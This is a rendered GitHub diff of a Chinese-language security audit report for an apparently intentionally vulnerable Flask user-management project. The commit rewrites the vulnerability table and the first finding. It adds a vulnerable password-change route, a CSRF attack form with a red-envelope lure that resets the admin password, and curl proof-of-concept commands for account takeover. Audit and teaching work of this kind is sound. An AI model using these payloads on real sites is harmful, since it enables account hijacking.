

Before and after one commit to jjyyxx-1/flask-user-mgmt-security, a Markdown page: docs/audit-report.md, the part around one of its changes. Shown at 85% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/docs/audit-report.md
+++ b/docs/audit-report.md
@@ -4,8 +4,8 @@
 
 **项目名称：** Flask 用户信息管理平台
 **审计日期：** 2026-07-13
-**漏洞总数：** 7
-**严重漏洞：** 4 | **中危漏洞：** 2 | **低危漏洞：** 1
+**漏洞总数：** 8
+**严重漏洞：** 5 | **中危漏洞：** 2 | **低危漏洞：** 1
 
 ---
 
@@ -13,39 +13,62 @@
 
 | 编号 | 漏洞类型 | 位置 | 严重性 |
 |------|---------|------|:------:|
-| V-001 | IDOR 越权访问 | `/profile?user_id=` | 🔴 严重 |
-| V-002 | 负金额充值 | `/recharge` | 🔴 严重 |
-| V-003 | SQL注入（搜索） | `/?keyword=` | 🔴 严重 |
-| V-004 | 路径穿越 | `/page?name=../` | 🔴 严重 |
-| V-005 | 任意文件上传 | `/upload` | 🟡 中危 |
-| V-006 | 注册SQL注入 | `/register` | 🔴 严重 |
-| V-007 | 明文密码存储 | SQLite 数据库 | 🟡 中危 |
+| V-001 | **CSRF密码修改** | `/change-password` | 🔴 严重 |
+| V-002 | **IDOR 越权改密** | `/change-password` | 🔴 严重 |
+| V-003 | **无原密码校验** | `/change-password` | 🔴 严重 |
+| V-004 | **IDOR 越权查资料** | `/profile?user_id=` | 🔴 严重 |
+| V-005 | **负金额充值** | `/recharge` | 🔴 严重 |
+| V-006 | SQL注入（搜索） | `/?keyword=` | 🔴 严重 |
+| V-007 | 路径穿越 | `/page?name=../` | 🔴 严重 |
+| V-008 | 任意文件上传 | `/upload` | 🟡 中危 |
 
 ---
 
-## 1. V-001 IDOR 越权访问
-
-**CWE:** CWE-639: Authorization Bypass Through User-Controlled Key
-**CVSS:** 8.6 (High)
+## 1. V-001/V-002/V-003 密码修改三重漏洞
 
 ### 漏洞代码
 ```python
-@app.route("/profile")
-def profile():
-    user_id = request.args.get("user_id", "")  # ← 从URL参数获取
-    c.execute("SELECT ... FROM users WHERE id=?", (user_id,))
+@app.route("/change-password", methods=["POST"])
+def change_password():
+    username = request.form.get("username", "")
+    new_password = request.form.get("new_password", "")
+    # 无CSRF Token验证
+    # 无原密码验证
+    # 无session验证
+    c.execute("UPDATE users SET password = ? WHERE username = ?", (new_password, username))
 ```
 
-**问题：** user_id 从 URL 参数获取，**未验证当前登录用户和查询的 user_id 是否匹配**。任意登录用户只需修改 URL 中的 user_id 即可查看任何人的资料。
+### 漏洞详情
 
-### POC
-```bash
-# 以 admin 身份登录，查看 admin 资料
-curl "http://127.0.0.1:5000/profile?user_id=1"
+| 漏洞 | 说明 | 风险 |
+|------|------|:----:|
+| V-001 CSRF | 无 CSRF Token，攻击者可构造恶意页面诱使用户提交 | 任意用户密码被篡改 |
+| V-002 越权改密 | username 从表单获取，可修改任意用户密码 | 管理员密码可被普通用户篡改 |
+| V-003 无原密码校验 | 直接设置新密码，无需知道旧密码 | 一次 XSS/CSRF 即可永久接管账号 |
 
-# IDOR：查看 alice 的资料（无需 alice 密码）
-curl "http://127.0.0.1:5000/profile?user_id=2"
+### POC：CSRF 攻击页面
+```html
+<!-- 攻击者构造的恶意页面 -->
+<form action="http://target:5000/change-password" method="POST">
+  <input type="hidden" name="username" value="admin">
+  <input type="hidden" name="new_password" value="hacked123">
+  <input type="submit" value="点击领红包">
+</form>
 ```
 
-### 修复
+当受害者（已登录 admin）点击提交后，admin 的密码被改为 `hacked123`，攻击者即可用新密码登录 admin 账号。
+
+### POC：curl 命令
+```bash
+# 任何登录用户修改 admin 密码
+curl -X POST http://127.0.0.1:5000/change-password \
+  -d "username=admin&new_password=hacked123"
+
+# 用新密码登录
+curl -X POST http://127.0.0.1:5000/login \
+  -d "username=admin&password=hacked123"
+# ✅ 登录成功！
+```
+
+### 修复方案
 ```python
````
Also changed, not shown: other parts of docs/audit-report.md (+32 -41 lines).
